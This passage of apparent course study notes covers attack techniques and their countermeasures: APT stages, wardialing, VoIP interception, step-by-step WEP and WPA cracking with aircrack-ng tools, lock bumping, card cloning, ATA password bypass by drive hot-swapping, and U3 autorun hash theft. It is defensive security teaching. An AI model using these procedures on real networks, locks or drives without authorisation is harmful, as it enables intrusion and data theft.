5. Trojan backdoor installed in c:\windows\system32 and registers in NETSVCS
6. Trojan backdoor uses a filename slightly different from Windows filenames
7. Uses SSL communication with C&C server
8. Attacker interacts via cutouts with Trojan with SSL-encrypted traffic
9. Attacker Lists computername and User Accounts; uses pass-the-hash, gets local and Active directory account information
10. service priviledge escalation to network reconnaissance
11. Offline password hash cracking
12. Lateral movement by using RDP, SC.exe, NET commands, ...
13. Installs additional backdoor trojans and egress points
14. stolen files are packaged in ZIP or RAR packages, renamed as GIFs

## Detecting APTs
- Audit Changes to the file system (as above)
- SMS alerts on administrative logins
- firewalls that monitor inbound RDP, VNC, CMD.EXE
- AV, HIPS, file system integrity checking
- NIDS, NIPS, Snort
- Security Information/Events Management (SIEM)


<br>
<br>

--- 

<br>
<br>

# Remote Connectivity and VoIP Hacking
## Dial-Up Hacking
Many companies still use dial-uè connections: Connecting to old severs, ntwork devices, industrial Contorl Systems (ICS).

Dial-Up hacking process is similar to other hacking (footprinting, scan, enumeration, exploit) and is automated by tools: wardialer or demo dialer.

Phone number footprinting: identify blocks of phone numbers to load to wardialer.
  - Phone directories, target websites, Internet name registration database, manual dialing, ecc
  - Countermeasures: require a password to make account inquiries; sanitize sensitive information; educate employees

### Wardialing
- HW: as important as the software: greatly affect efficiency - the number of modems, high quality modems
- Legal Issues: laws about wardialing activities - Identify phone lines, record calls, spoof phone numbers, ...
- Peripheral Cost: Long distance, international or nominal charges
- SW: automated scheduling, ease of setup and accuracy - Tools: WarVOX, TeleSweep, PhoneSweep

### Brute-Force Scripting
Categorize the connections into penetration domains based on wardialing results. Experience with a large variety of dial-up servers and OSes

Brute-force scripting attack: ZOC, Procomm Plus, ASPECT scripting language



### Security Measures
1. Inventory existing dial-up lines 
2. Consolidate all dial-up connectivity to a central modem bank 
   - Position as an untrusted connection off the internal network  
3. Make analog lines harder to find 
4. Verify that telecommunications equipment closets are physically secure  
5. Regularly monitor existing log features within dial-up software  
6. For business serving lines, do not disclose any identifying information  
7. Require multi-factor authentication systems for all remote access 
8. Require dial-back authentication  
9. Ensure the corporate help desk is aware of the sensitivity of giving out or resetting remote access credentials 
10.  Centralize the provisioning of dial-up connectivity 
11. Establish firm policies 
12. Back to step 1

## PBX (Private Branch Exchange) Hacking
- Dial-up connections to PBXes still exist - managing method, especially by pbx vendors

- hacking PBXes takes the same route as typical dial-up hacking:



- Countermeasures: reduce the time when modems turned on; deploy multiple forms of authentication

## Voicemail Hacking
- brute-force Voicemail Hacking
  - In similar fashion to dial-up hacking methods
  - Required components: phone number to access voicemail; target voicemail box (3-5 digits); educated guess about voicemail box password (typically only numbers)
  - Tools: Voicemail Box Hacker 3.0 and VrACK 0.51 (for old/less secure system, ASPECT scripting language)
- Countermeasures: deploy a lockout on failed attempts; log/observe voicemail connections

## VPN Hacking
VPN has replaced dial-up as the remote access mechanism.

### Google Hacking for VPN
- use filetype:pcf to find profile setting files for Cisco VPN client (PCF file)
- Download, import the file; connect to target network, launch further attacks.
- Passwords stored in PCF file can be used for password reuse attack (tools: Cain, etc...)
- Countermeasures: user awareness; sanitize sensitive information on websites; use Google Alert service

### Probing IPsec VPN servers

- Check if service's corresponding port is available
- Perform IPsec VPN identification and gateway fingerprinting
- Identify the IKE Phase 1 mode and remote server hw
- Tools: Nmap, NTA Monitor, IKEProber
- Countermeasures: cannot do much to prevent the attack

### Attacking IKE Aggressive Mode
- IKE Phase 1-Aggressive mode does not provide a secure channel
  - eavesdropping attacks to authentication in formation
- First, identify whether target server supports aggressive mode (tool: IKEProbe)
- Then, Initiate connection and capture authentication messages (tool: IKECrack, Cain)
- Countermeasures: discontinue Aggressive mode use; use token-based authentication scheme

### Hacking the CITRIX VPN solution
- Client-to-site VPN solution provides access to remote desktops and applications
  - A full-fledged remote desktop (Windows)
  - Commercial off-the-shelfs (COTS) application
  - Custom Application
- Typical attack is to spawn another process in a remote Citrix environment (i.e. explorer.exe, cmd.exe, PowerShell.exe, etc.)
- Ten most popular categories for attacking published applications: Help, Microsoft Office, Internet Explorer, Microsoft Games and Calculator, Task Manager, Printing, Hyperlinks, Internet Access, EULAs Text editor, Save As/File System Access
- Countermeasures: place Citrix instance into segmented, monitored and limited environment; multifactor authentication; assess the system

## VoIP Attacks

### SIP Scanning
- the transport of voice on top of an IP network
  - Signaling protocols: H.323 and SIP
- SIP scanning: discover SIP proxies and other devices:
  - Tools: SiVuS, SIPVicious
  - Countermeasures: network segmentation between VoIP network and user access segment
  
### Pillaging TFTP for VoIP Treasures
- Many SIP phones rely on TFTP server to retrieve configurationn settings
  - may ontain username/password for administrative functionality
- Firstly locate TFTP server (with Nmap) 
- Then attempt to guess the configuration file's name (tools: TFTP brute-force)
- Countermeasures: access restriction to TFTP

### Enumerationg VoIP Users
- Traditional manual and automated wardialing methods
- Observe servers' responses
  - SIP is a human readable protocol
- Cisco Directory Services
- Automated User enumeration Tools: SIPVIcious, SIPScan, Sipsak
- Countermeasures: segmenting VoIP and user networks; deploy IDS/IPS systems

### Interception Attack
- First intercept the signaling protocol (SIP, SKINNY, UNIStim) and media RTP stream
  - ARP spoofing attack (tools: dsniff, arp-sk)
  - Sniff VoIP datastream (tools: tcpdump, Wireshark)
- nexk, identify the codec (payload Type field or Media format field)
- then, convert datastream to popular file types (tools: vomit, scapy)
- GUI and all-in-one tools: UCSniff
- Offline analysis and attack tools: Wireshark, SIPdump, SIPcrack

### Denial Of Service
- DoS the infrastructure or a single phone: 
  - sending a large volume of fake call setup signaling traffic (SIP INVITE)
  - flooding the phone with unwanted traffic (unicast or multicast)
- Tools: Inviteflood, hack_library
- Countermeasures: network segment between voice and data VLANs; authentication and encryption for all SIP communications; deploy IDS and IPS systems

## SUMMARY
- Remote access security tips: 
  -  Password policy is even more critical  
  -  Consider two-factor authentication 
  -  Develop provisioning policies for any type of remote access 
  -  Eliminate unsanctioned use of remote control software 
  -  Be aware PBXes, fax servers, voicemail systems, etc., besides modems 
  -  Educate support personnel and end users 
  -  Be extremely skeptical of vendor security claims 
  -  Develop a strict use policy and audit complianc
  


<br>
<br>

--- 

<br>
<br>


# Wireless Hacking
The introduction is better in the EHE course.

## Session Establishment
### Probes
- Client sends a probe request for the SSID (Service Set Identifier) it is looking for
- It repeats this request on every channel, looking for a probe response
- After the response, client sends  authentication reques

### Authentication
- If system uses open authentication, the AP accepts any connection
- The alternate system, shared-key  authentication, is almost never used 
 - Used only with WEP
- WPA security mechanisms have no effect on authentication — they take effect later

### Associacion
- Client sends an association request
- AP sends an association response

## Security Mechanism
### Basic Security Mechanisms
- MAC filtering
- "Hidden" Networks
  - Omit SSID from beacons
  - Microsoft reccommends announcing your SSID because Vista and later versions of Windows look for beacons before connecting
  - This makes client more secure, because it is not continuously sending out probe requests, opening up to AP impersonation attacks

### Responding to Broadcast Probe Requests
- clients can send broadcast probe requests
- Do not specify SSID
- Aps can be configured to ignore them

### WPA v WPA2
- 802.11i specifies encryption standards
- WPA implements only part of 802.11i
  - TKIP (temporal key integrity Protocol)
- WPA2 implements both
  - TKIP and AES

### WPA personal vs WPA enterprise

in General:
- WPA-PSK:
  - 1 password applies to all users
  - Passwords are stored on the wireless clients
  - Password manually changed on all the wireless clients, once it's modified on the AP
  - Wireless access cannot be individually managed
- WPA-Enterprise:
  - When users try to connect to Wi-Fi, they need to use their enterprise login credentials
  - users never deal with the actual encryption keys
  - Attackers cannot get the network key from clients
  - Offers individualized control over access to a Wi-Fi Network

on encryption:
- WPA-PSK uses a pre shared key
- WPA enterprise 802.1x uses 802.1x and RADIUS server
  - EAP (extensible authentication protocol), which may be one of EAP-TTLS, PEAP, EAP-FAST

### Four-Way Handshake
Both WPA-PSK and WPA Enterprise use Four-way Handshake to establish:
  - pairwise transient key - for unicast communication
  - Group temporal key - Used for multicast and broadcast communication

### Encryption options
WEP - Wired Equivalent Privacy
  - Uses RC4
  - Flawed and easily exploitable

TKIP - temporal key integrity Protocol
  - a quick replacement for wep
  - runs on old hardware
  - still uses RC4
  - no major vulnerabilities known

AES-CCMP (advanced encryption standard with cypher block chaining message authentication code protocol)
 - most secure, recommended

## Equipment
### Chipset
Manufacturer's chipset driver limits your control of the wireless NIC
  - most NICs can't be used for wireless hacking

### Windows vs Linux
Windows:
  - Wireless NIC drivers are easy to get
  - Wireless hacking tools are few and Weak
    - Unless you pay for the AirPcap Devices or OmniPeek

Linux:
  - Wireless NIC drivers are hard to get and install
  - Wireless hacking tools are much better 

Kali:
  - includes many drivers already installed
  - Can be used from a virtual machine with a USB NIC
  - For other NIC types, you can't use VMware for wireless hacking

### Antennas
- Omnidirectional antenna sends and receives in all directions.
- Directional antennas focus the waves in one direction

### Global Positioning System (GPS)
location using signals from a set of satellites. Works with war-driving software to create a map of access points

### Discovery and monitoring
Discovery tools use 802.11 management frames: 
  - probe requests and responses 
  - beacons

Source and destination addresses of an 802.11 frame is always unencrypted
  - Tools can map associations between clients and APs

### Finding Wireless Networks
- Active Discovery
  - Send out broadcast probe requests
  - Record responses
  - Misses APs that are configured to ignore them
  - NetStumbler does this
- Passive Discovery
  - Listen on every channel
  - Record every AP seen
  - Much better technique
Tools: NetStumbler 

## Wardriving
Finding wireless networks with a portable device. (tool: Vistumbler)

### Smartphone
- the iphone combines GPS, Wi-Fi and cell tower location to locate you
- You can wardrive with the Android phone and Wifiscan

### WiGLE.net
Collects wardriving data from users and has over 16 millions records

## Sniffing Wireless Traffic
- Easy if traffic is unencrypted
- MITM attacks common and easy
- May violate wiretap laws
- if you can't get your card into "Monitor mode" you'll see higher level traffic but not 802.11 management frames
- Tools: Kismet, aircark-ng suite

### De-Authentication DoS Attack
- 802.11 built-in mechanism: forced disconnect
  - incorrect encryption key, overloading
  - Abused for DoS attacks
- Unauthenticated Management Frames
  - An attacker can spoof a de-authentication frame that looks like it came from the access point
  - airplay-ng: part of aircrack-ng

## Identifying Wireless Network Defenses
### SSID
- SSID can be found from any of these frames:
  - Beacons - sent continually by the APs
  - Probe Requests - Sent by client systems wishing to connect
  - Probe Responses - response to a probe request
  - Association and Reassociation requests - Made by the client when joining or rejoining the network
- If SSID broadcasting is off, just send a deauthentication frame to force a reassociation

### MAC access COntrol
- Each MAC must be entered into the list of 
approved addresses
- High administrative effort, low security
- Attacker can just sniff MACs from clients and 
spoof them


## Gaining Access (hacking 802.11)

### Specifying the SSID
- In windows, just select it from the available wireless networks.

### Changing your MAC
- Bwmachak changes a NIC under Windows for Orinoco Cards
- SMAC is easy

### Device Manager
- Many Wi-Fi cards allow you to change the MAC in Windows' Device Manager

### Attacks against the WEP Algorithm
Collect Inizialization vectors, which are sent in cleartext, and correlate them with the first encrypted byte: this makes the brute force process much faster (it will take weeks otherwise)

Some tools:
- AirSnort
- WLAN-tools
- DWEPCrack
- WEPAttack

## Encryption attacks

Comparison

| WPA | WEP |
|---|---|
| with authentication | without authentication |
| with key rotation | without key rotation |
| crack again and again | crack once for all |

## WEP:
--- 
  - Keystream
    - Generated by WEP key and IV.
    - TX: XOR plaiin text to cipher text
    - RX: Use WEP key and IV from frame header to generate a keystream, XOR cipher text to get plaintext
  - DUplicate IVs in two frames -> compare their cipher texts -> guess the keystream -> guess WEP key
  - ARP frames with little or no difference -> more duplicate IVs -> easier to gues the keystream and WEP key

#### Passive Attack
Capture enough data frames, parse IVs, deduce WEP key
  - 60000 IVs to crask a 104 bit key
  
airodump-ng to capture into a PCAP file, aircrack-ng to analyze statistically on a PCAP file to get WEP key.
  - Watch the rate at which IVs are collected to tell how much longer it will take to gather enough to crack the key. Stops with KEY FOUND

### ARP Replay with Fake Authentication
- Replay broadcast ARP requests
  - from a client to an AP
  - AP broadcasts with a new IV each time
  - The Client replays ARP and generates new ARP
  - in 5 minutes, enough frames and IVs collected
- Spoof a valid client's MAC address
  - Fake authentication attack
    - open authentication without sending actual data
- Steps
  - airodump-ng: capture to a PCAP file
  - aireplay-ng: run fake authentication attack
  - Open another window to launch ARP replay attack with aireplay-ng again
  - aircrack-ng to crack on the captured PCAP files

> [!WARNING] WEP countermeasures
> DON'T USE WEP EVER

## WPA
---

PSK is hashed 4096 times, can be up to 63 characters long and includes the SSID.

Tools: aircrack-ng suite, coWPAtty, rainbow tables, pyrit

### Authentication attacks
- About password bruteforcing
- WPA PSK:
  - PSK shared among all users of a wireless network
  - 4-way handshake between clinets and APs: using PSK and SSID to derive encryption keys
  - Capture 4-way handshake to crack PSK offline.
  - Brute Forcing: use tools 

## WPA ENTERPRISE
- it means attacking EAP (extensible authentication protocol)
  - Techniques depend on the specific EAP type used. (can be detected with wireshark)

### LEAP - Lightweight Extensible Authentication Protocol 
- A proprietary protocol from Cisco Systems developed in 2000 to address the security weaknesses common in WEP
- LEAP is an 802.1X schema using a RADIUS server
- LEAP is fundamentally weak because it provides zero resistance to offline dictionary attacks
- It solely relies on MS-CHAPv2 (Microsoft Challenge Handshake Authentication Protocol version 2) to protect the user credentials used for Wireless LAN authentication

**MS-CHAPv2**: notoriously weak because it does not use a SALT in its NT hashes, uses a weak 2 byte DES Key and send usernames in clear text.
  - Because of this, offline dictionary and brute force attacks can be made much more efficient by a very large (4 gigabytes) database of likely passwords with pre-calculated hashes

#### TOOL: Asleap
Grabs and decrypts weak LEAP passwords from Cisco wireless access points and corresponding wireless cards.

Integrated with Air-Jack to knock authenticated wireless users off targeted wireless networks

### EAP-TTLS and PEAP
EAP-TTLS and PEAP both use a TLS tunnel to protect a less secure inner authenticated protocol.

**attacking TLS**: No known way to defeat the encryption, but AP impersonation can work

## Summary 
- WEP 
  - Passive attack & ARP replay with fake authentication 
  - Cracked in 5 min 
  - Don’t use it! 
- WPA-PSK 
  - Could be brute-forced, though high complexity 
  - One PSK fits all  put other users at risk 
- WPA Enterprise 
  - LEAP 
    - Could be brute-forced, needs extremely complex passwords 
    - Don’t use it! 
  - EAP-TTLS and PEAP 
    - Relatively secure with multilayered encryption 
    - Subject to AP impersonation and man-in-the-middle attack 
    - Always have clients check server certificate

<br>
<br>

---

<br>
<br>


# Hacking Hardware
## Physical Access

### BUMP KEY


Every pin falls to its lowest point. The key is hit with a screwdriver to create mechanical shocks. They key pins move up and briefly pass through the shear line. The lock can be opened at the instant the ksy pins align on the shear line. This method can used to open doors, pc cases, racks, laptop cable locks, ...

**Results of the Bump Key**: an experienced bumper can open a lock as quickly as a person with the correct key. bumping does not damage the lock, unless it is done many times or clumsily, and it does not leave any evidence behind.

**Countermeasures**: some locks are designed to make bumping difficult;  they use a sidebar and angled pins to make normal picking and bumping ineffective (but not totally). Don't reluy solely on locks: use two factor authentication (PIN keypad, fingerprint, security guards, ...)

### Cloning Access Cards
Two Varieties:
- Magnetic stripe cards: ISO Standards specify three tracks of data. There are various standards, but usually no encryption is used.
  - Tools: a Magnetic Stripe Card Reader + Magnetic-Stripe Card Explorer (SW). This software can read multiple cards of the same type to detect different bits. It can also determine what checksum is used to recalculate a new one.
- RFID (Radio Frequency Identification) Cards - often called proximity cards: use radio signals instead of magnetism. Is now requider in passports. Data can be read at a distance, and is usually encrypted
  - The most widely deployed brand of RFID secure chips is ***MiFare***. Some researchers found weaknesses in MiFare proprietary encryption in 2008.
  - MOst cards access RFID on two different spectrums: 135 kHz or 13.56 MHz
  - Many RFID cards are unprotected
  - Hardware tools are available at Openpcd.org for the reader and for common RFID Cards.
  - More advanced tools:
    - Proxmark3 + on-board FPGA for the decoding of different RFID protocols
    - Universal Software waves Radio Peripheral (USRP) to intercept the RFID traffic: send and receive raw signals.


## Hacking devices
### ATA (Advanced Technology Attachment) interfaces for Hard Drives
2 kinds are used:
  - PATA (Parallel ATA) - older one
  - SATA (Serial ATA) - newer and faster one

ATA Security:
  - requires a password to access the hard disk.
  - Virtually every hard drive made since 2000 has this feature
  - It is part of the ATA specification, and thus not specific to any brand or device
  - Does not encrypt the disk, but prevent access

Not every desktop machine's BIOS is aware of ATA security. An attacker can active the ATA security to destroy an hard drive or hold it for ransom.
  - ***ONLY THEORETICAL ATTACK***

### Hacking Locked Hard Disk

Bypassing ATA password security. ATA Security to deter the usage of a stolen laptop.

Common and simple trick -> Hot-swap attack (Fool BIOS): 
- Find a computer (capable of setting ATA password and an unlocked drive) 
- Boot the computer with the unlocked drive 
- Enter BIOS interface -> prepare to set a BIOS password 
- Replace the unlocked drive with the locked drive (Carefully) 
- Set the harddisk password using BIOS interface -> The drive will accept the new password 
- Reboot -> BIOS prompt you to unlock the drive bypassing the old one. 
- The password can be cleared from the system if a new password is not desired.

Bypassing ATA Passwords
- Vogon Password Cracker POD
  - Changes the password from a simple GUI
  - Allows law enforcement to image the drive, then restore the original password so the owner never knows anything has happened
  - Works by accessing the drive service area: a special area on a disk used for firmware, geometry, informtion, ecc..; but inaccessible to the user.

Countermeasures:  Don't rely on ATA SECURITY to protect drives. Use full disk encryption products (BitLocker, TrueCrypt, SecurStar)

## U3 Drives

U3 -> software on a flash drive. Just plug it in a PC and a Launchpad appears. It can run your applications on anyone's machine and take all your data with you.

a U3 drive appears as 2 devices in my computer: a removable disk and an hidden CD drive named U3. the CD contains software that AUTOMATICALLY runs on computers that have Autorun enabled.

### Hak9’s PocketKnife 
PocketKnife is a suite of powerful hacking tools that lives on the disk partition of the U3 drive. Just like other applications.

This app can:
  - steal passwords
  - product keys
  - steal files
  - kill antivirus software
  - turn off the firewall
  - ...



#### Custom Launchpad
You can create a custom file to be executed when a U3 drive is plugged in

- Universal_Customizer.exe write ISO containing Fgdump script into flash disk 
- The custom U3 launcher runs PocketKnife 
- So all those things are stolen and put on the flash drive

### U3 Hack to a system
- Easiest ways into a system 
- U3 system is a secondary partition 
  - USB flash drive made by SanDisk and Memorex 
  - U3 menu is executed automatically when USB stick is inserted. 
- Hack work by taking advantage of Win auto run feature 
- Autorun.ini in U3 partition runs 
  - U3 partition can be overwritten 
  - Attack by reading the password hashes from the local Windows password file or install a Trojan for remote access  
    - Universal_Customizer.exe write ISO containing Fgdump script into flash disk 
- Countermeasures 
  - Disable auto run (Check Windows support for how to) 
  - ***Hold SHIFT key before inserting USB***. 
    - Prevent auto run from launching the default program.

## Default Configurations

Many devices ship with default passwords that are often left unchanged. Especially Routers! (ATM Machines can be left at default too)

Bluetooth supports encryption, but it's off by default, and the password is 0000 by default. Bluetooth can hack phone sync, make calls, tranfer data, etc...
  - tools: Ubertooth - physical tool to sniff and playback Bluetooth frames

## Reverse Engineering Hardware

#### Integrated Circuit (IC) Chips
- to unlock the information inside customized devices
- Mapping the device:
  - Identify IC chips
  - Available external interfaces
  - Identifying important Pins - Modern boards are multilayer -> use multimeter to create bus map
- Sniffing bus data:
  - Generally Unprotected: MITM Attack
  - Encrypted information as chip to chip
  - Use a logic analyzer o see and record signal on the bus

#### Sniffing Wireless INterface

- Layer 2 softeare attack -> Wi-Fi operates at data link layer
- Hack steps:
  - identify FCC ID of the devices: useful information - radio frequencies on which the device is to operate
  - symbol decoding:  
    - radio frequencies + type of modulation
    - decode lowest level bits from wireless channel
    - Software Defined RADIO: tools like WinRadio or USRP


#### Firmware Reversing

- Plethora of juicy information about the device: default passwords, admin ports, unintentional backdoors, debug interfaces...
- Hex Editors: 
  - Tools: 010 editor and IDA Pro
  - Unix command Strings
  - Guess: password, encryption used
- EEPROM programmers: read/write firmware files

- Microcontroller Tools: MPLAB IDE
- ICE (in circuit emulator) tools
  - Hardware debugger
  - contact manufacturer to check available ICE
- JTAG (joint test action group)
  - Testing interace among components on printed circuit boards (PCB)
  - One size does not fit all


<br>
<br>

---

<br>
<br>


# Web Security

## Web application Hacking
Focussing on the applications rather than the underlying web server Software. Requires a deeper analysis and more patience.

Many tools available:
- Google Dorks (Google Hacking Database): Search engines index huge amounts of web pages. Using advanced search, you can find lots of useful informations while remaining anonymous. [Here](https://www.exploit-db.com/googlehacking-database)
- Web Crawling: the first step is to familiarize with the target website -> the best way is to download the entire content of the website.
  - Look for sensitive data in interesting files: comments, includes, source code, server response headers, cookies, ...
  - Long and tedious process, but many tools are available: `wget`
- Web App Assessment: Deep analysis of application design - the key to discover vulnerabilities
  - The main focus are:
    - Authentication
    - session managemen
    - database interaction
    - input validation
    - application logic
  - Requires proper tools like Browser Plugins and Tool Suites

**TOOLS**:
  - Browser Plugins: See and modify data in real time. Useful to understand app's functionality. allows to modify query arguments and request headers.
    - Built-in developer tools are invaluable - F12
  - Tool Suites: proxy interpose between client and server with interception and deep analysis. Provide all funcionalities of plugins and more. 
    - Some example: Fiddler, WebScarab, BurpSuite

## Common Web Application Vulnerabilities
We should look for:
  - Typical weak passwords
  - misconfigurations
  - session hijacking
  - cross site scripting
  - cross site request forgery
  - SQL Injections

## Some Web Concepts



URLs can only be sent over the Internet using the  ASCII character-set. Here's a list of “non-allowed” characters (per RFC 1630)
> : / ? \# \[ \] @ \! $ & ’ \( \) \* \+ , ; =
>

Not-allowed (unsafe) ASCII characters are ENCODED with a " % "  followed by two hexadecimal digits



### HTTP requests

Structure:
1. HTTP Request line
  
2. headers - some headers:
   - Host: the hostname that appears in the full URL accessed
   - Authorization: authentication credentials:
     - basic + "username:password", base64 encoded
   - if-modified-since: server answer with the resource only if it has been modified after specified date
   - referer: page from which the request has been generated
   - user-agent: agent used to perform the request
   - meta information on the body:
     - content-length: length of the payload
     - content-type: type of payload (e.g. application/x-www-form-urlencoded)
3. empty line
4. body (optional)


### HTTP Answers
Structure:
1. status-line: `HTTP/1.1 200 OK`
   
2. header (optional) - main headers:
   - server - General banner on the web server, can include modules and OS
   - location: used with redirect, indicates the new location
   - last-modified, expires, pragma: for the caching mechanism - info about the modified status
   - content-lenght, content-type: if payload present
3. empty line (CRLF)
4. body of the message (optional, depending on the request)

NB: status line and header are terminated by CRLF

### Parameter passing
#### GET
user sends data to an application through a form or any client-side technology, but it must be translated to an HTTP request.

- Case 1: parameter passing through a form
  
- Case 2: parameters embedded in the URL:
  > \<a href="submit.php?var1=a&var2=b">link\</a>

Resulting HTTP request, in both cases:
> GET /submit.php?var1=a&var2=b HTTP/1.1   
> Host: www.example.com    
> ...  

#### POST
- Case 1: only POST
